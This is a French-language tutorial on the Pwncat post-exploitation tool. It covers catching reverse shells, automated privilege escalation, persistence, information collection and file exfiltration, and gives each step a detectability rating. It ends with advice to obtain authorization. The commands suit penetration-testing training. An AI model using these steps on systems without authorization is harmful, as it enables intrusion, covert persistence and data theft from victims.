 
# Pwncat - Tutoriel Complet

## Introduction
**Pwncat** est un outil de post-exploitation et un wrapper autour des connexions shell traditionnelles qui automatisent des aspects courants de la gestion des sessions et de l'escalade de privilèges. Il est conçu pour offrir une expérience plus riche et plus efficace lors de l'interaction avec des shells inversés, en fournissant des outils pour l'analyse des systèmes compromis, l'exécution automatisée de commandes, et même la persistance.

---

## Installation de Pwncat

### Sous Linux
Pwncat est généralement installé via Python Pip. Assurez-vous que **Python3** et **Pip** sont installés sur votre système avant de procéder.

```bash
python3 -m pip install pwncat-cs
```
**Explication** : Cette commande installe la dernière version de Pwncat à partir de PyPI.

### Sous Windows
Pwncat est principalement utilisé sur des systèmes Linux et macOS, mais il peut être exécuté sous Windows via **WSL (Windows Subsystem for Linux)** en installant une distribution Linux compatible et en suivant les étapes d'installation pour Linux.

---

## Commandes de Base

### Établir une Connexion Reverse Shell

#### Écouter pour une connexion entrante
```bash
pwncat -l 4444
```
**Explication** : Configure Pwncat pour écouter sur le port 4444 pour une connexion entrante.  
**Discrétion** : Moyenne. Écouter sur un port peut être détecté si des scans de ports sont effectués sur le réseau.

---

## Utilisation de Pwncat pour la Gestion de Session

### Interagir avec un shell distant
Une fois qu'une session reverse shell est établie, Pwncat fournit une série de commandes internes pour améliorer l'interaction, telles que la persistance, l'escalade de privilèges automatisée, et la gestion des modules.

---

## Options Avancées et Discrétion

### Automatisation des Tâches

#### Automatiser l'escalade de privilèges
```bash
pwncat$ run escalate
```
**Explication** : Exécute des routines automatisées pour tenter d'escalader les privilèges sur la machine distante.  
**Discrétion** : Variable. Selon les techniques utilisées, cela peut être plus ou moins détectable par des solutions de sécurité.

### Gestion des Modules

#### Utiliser des modules personnalisés
```bash
pwncat$ load my_custom_module
```
**Explication** : Charge un module personnalisé dans Pwncat pour étendre ses fonctionnalités.  
**Discrétion** : Moyenne à élevée. Charger des modules pour effectuer des actions spécifiques peut générer des comportements qui pourraient alerter les systèmes de détection.

---

## Exemples de Scénarios et Discrétion

### Session de post-exploitation
Une fois à l'intérieur d'un système compromis :
```bash
pwncat$ persist
```
**Explication** : Installe divers mécanismes de persistance pour maintenir l'accès au système compromis.  
**Discrétion** : Élevée. La persistance implique souvent de modifier des fichiers de configuration ou d'installer des services.

### Collecte d'informations
```bash
pwncat$ run collect
```
**Explication** : Collecte des informations détaillées sur le système compromis.  
**Discrétion** : Moyenne. Collecter des données peut générer du trafic et des charges sur le système.

### Exfiltration de données
Pwncat peut automatiser l'exfiltration de fichiers ou de données critiques :
```bash
pwncat$ download /path/to/important/data
```
**Explication** : Transfère des fichiers de la victime à l'attaquant de manière sécurisée.  
**Discrétion** : Moyenne à élevée. L'exfiltration de données peut être détectée en fonction du volume et de la méthode de transfert.

---

## Bonnes Pratiques

1. **Obtenir des Autorisations** : Toujours s'assurer d'avoir les autorisations nécessaires avant de mener des actions de post-exploitation avec Pwncat.
2. **Minimiser l'Impact** : Limiter l'utilisation des fonctionnalités qui modifient fortement les systèmes ou qui pourraient endommager des données.
3. **Connaissance du Système** : Utiliser Pwncat de manière responsable, en comprenant l'environnement dans lequel vous travaillez pour éviter des actions inappropriées.
